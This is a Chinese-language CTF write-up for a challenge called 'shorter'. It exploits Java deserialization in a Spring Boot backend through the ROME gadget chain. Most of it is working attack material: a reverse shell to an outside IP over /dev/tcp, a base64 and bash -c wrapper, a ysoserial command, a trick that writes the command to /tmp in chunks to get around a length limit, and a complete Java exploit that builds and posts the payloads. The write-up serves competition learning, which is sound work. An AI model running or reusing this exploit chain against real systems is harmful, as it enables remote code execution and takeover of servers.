







# shorter

根据dockerfile的信息，flag文件在根目录，目标就是读取这个flag文件。



用jadx反编译jar文件，可以发现这是一个简单的SpringBoot后端，只有一个controller。



看到readObject，说明能够反序列化，由于没有回显，只能RCE反弹shell。找找能利用的依赖包，在pom.xml中可以看到rome。



先做准备工作，在路由器里设置端口映射，再在电脑里开一个监听端口:
```ncat -lvvp 2224```




反弹shell的命令为`bash -i >& /dev/tcp/123.123.12.12/2224 0>&1`，其中的123.123.12.12是我家的ip地址。但是Java的exec不支持这种重定向的行为，所以需要先用Base64编码，再用`bash -c`来运行：

```/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjMuMTIzLjEyLjEyLzIyMjQgMD4mMQo=}|{base64,-d}|{bash,-i}```

使用ysoserial可以生成payload：

```java -jar ysoserial.jar ROME '/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjMuMTIzLjEyLjEyLzIyMjQgMD4mMQo=}|{base64,-d}|{bash,-i}' | base64```

但是后端限制的表单内容长度为1956，上面这段命令生成的payload长度达到了4512，所以得想办法减少长度。

在<https://xz.aliyun.com/t/10824>这篇文章中找到了一些缩小长度的方法，结合<https://c014.cn/blog/java/ROME/ROME%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html>手动构造payload来尽可能缩小长度。最后缩减到了2032，但还是达不到要求。主要问题在于这个命令太长了。

既然命令太长，那就分成几个部分来发，把这一串命令拆开分别写入一个文件，最后直接运行这个文件就好。每次写入都是新的一行，所以需要在每一行后面加一个反斜杠，例如：
```
{echo,YmFzaCA\
taSA+JiAvZGV2\
L3RjcC8xMjMuM\
TIzLjEyLjEyLz\
IyMjQgMD4mMQo=}\
|{base64,-d}|{b\
ash,-i}
```

也就是说需要分别运行以下的命令：
```
mkdir /tmp/a
/bin/bash -c echo >/tmp/a/a
/bin/bash -c echo '{echo,\'>>/tmp/a/a
/bin/bash -c echo 'YmFzaC\'>>/tmp/a/a
/bin/bash -c echo 'AtaSA+\'>>/tmp/a/a
/bin/bash -c echo 'JiAvZG\'>>/tmp/a/a
/bin/bash -c echo 'V2L3Rj\'>>/tmp/a/a
/bin/bash -c echo 'cC8xMj\'>>/tmp/a/a
/bin/bash -c echo 'MuMTIz\'>>/tmp/a/a
/bin/bash -c echo 'LjEyLj\'>>/tmp/a/a
/bin/bash -c echo 'EyLzIy\'>>/tmp/a/a
/bin/bash -c echo 'MjQgMD\'>>/tmp/a/a
/bin/bash -c echo '4mMQ==\'>>/tmp/a/a
/bin/bash -c echo '}|{bas\'>>/tmp/a/a
/bin/bash -c echo 'e64,-d\'>>/tmp/a/a
/bin/bash -c echo '}|{bas\'>>/tmp/a/a
/bin/bash -c echo 'h,-i}'>>/tmp/a/a
/bin/bash /tmp/a/a
```



这里需要注意的是写入文件的位置，之所以写到/tmp目录中是因为这里有写入权限，不能写到一个没有权限的位置，我在这个问题上也纠结了很久才发现的，毕竟没有回显只能靠蒙。

对每个payload发一次post，最后如果成功了，就能看到监听端口接收到的shell。



EXP:
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.HashMap;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.*;
import org.apache.hc.client5.http.classic.methods.HttpPost;
import org.apache.hc.client5.http.entity.UrlEncodedFormEntity;
import org.apache.hc.client5.http.impl.classic.CloseableHttpClient;
import org.apache.hc.client5.http.impl.classic.CloseableHttpResponse;
import org.apache.hc.client5.http.impl.classic.HttpClients;
import org.apache.hc.core5.http.NameValuePair;
import org.apache.hc.core5.http.io.entity.EntityUtils;
import org.apache.hc.core5.http.message.BasicNameValuePair;
import org.objectweb.asm.ClassReader;
import org.objectweb.asm.ClassVisitor;
import org.objectweb.asm.ClassWriter;
import org.objectweb.asm.Opcodes;
import javax.xml.transform.Templates;
import java.util.Base64;
import java.util.List;


public class Rome {
    public static void main(String[] args) throws Exception {
        String bash = "bash -i >& /dev/tcp/123.123.12.12/2224 0>&1";
        String bash64 = Base64.getEncoder().encodeToString(bash.getBytes());
        String shell = "{echo," + bash64 + "}|{base64,-d}|{bash,-i}";
        ArrayList<String> shell_split = new ArrayList<>();
        int split_n = 6;
        int last;
        for (int i=0; i<shell.length(); i+=split_n) {
            if (i + split_n > shell.length())
                last = shell.length();
            else
                last = i + split_n;
            shell_split.add(shell.substring(i, last));
        }
        execCMD(getEXP("mkdir /tmp/a"));
        execCMD(getEXP("/bin/bash -c echo${IFS}>/tmp/a/a"));
        for (int i=0; i<shell_split.size(); ++i) {
            String part = shell_split.get(i);
            if (i != shell_split.size()-1)
                part = part + "\\\\";
            execCMD(getEXP("/bin/bash -c echo${IFS}'" + part + "'>>/tmp/a/a"));
        }
        execCMD(getEXP("/bin/bash /tmp/a/a"));
    }

    private static String getEXP(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("E");
        ctClass.setSuperclass(pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        CtConstructor constructor;
        constructor =
                CtNewConstructor.make(" public E() {\n" +
                        "       java.lang.Runtime.getRuntime().exec(\"" + cmd + "\");\n" +
                        "   }", ctClass);
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        ctClass.defrost();

        ClassReader cr = new ClassReader(bytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM5;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();

        TemplatesImpl templates = new TemplatesImpl();
        Field field1 = templates.getClass().getDeclaredField("_bytecodes");
        field1.setAccessible(true);
        field1.set(templates, new byte[][]{out});
        Field field2 = templates.getClass().getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates, "t");

        ObjectBean objectBean1 = new ObjectBean(Templates.class, templates);
        ObjectBean objectBean2 = new ObjectBean(ObjectBean.class, objectBean1);

        HashMap<Object, Object> map = new HashMap<>();
        Field field4 = map.getClass().getDeclaredField("size");
        field4.setAccessible(true);
        field4.set(map, 2);
        Class nodeC = Class.forName("java.util.HashMap$Node");
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, objectBean1, objectBean1, null));
        Array.set(tbl, 1, nodeCons.newInstance(1, objectBean2, objectBean2, null));
        Field fieldtable = map.getClass().getDeclaredField("table");
        fieldtable.setAccessible(true);
        fieldtable.set(map, tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        byte[] sss = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();

        String exp = Base64.getEncoder().encodeToString(sss);
        return exp;
    }

    private static void execCMD(String exp) throws Exception {
        CloseableHttpClient httpClient = HttpClients.createDefault();
        HttpPost httpPost = new HttpPost("http://shorter.d3ctf-challenge.n3ko.co/hello");
        List<NameValuePair> params = new ArrayList<NameValuePair>();
        params.add(new BasicNameValuePair("baseStr", exp));
        httpPost.setEntity(new UrlEncodedFormEntity(params));
        CloseableHttpResponse response = httpClient.execute(httpPost);
        System.out.println(EntityUtils.toString(response.getEntity()));
        httpClient.close();
    }
}

```
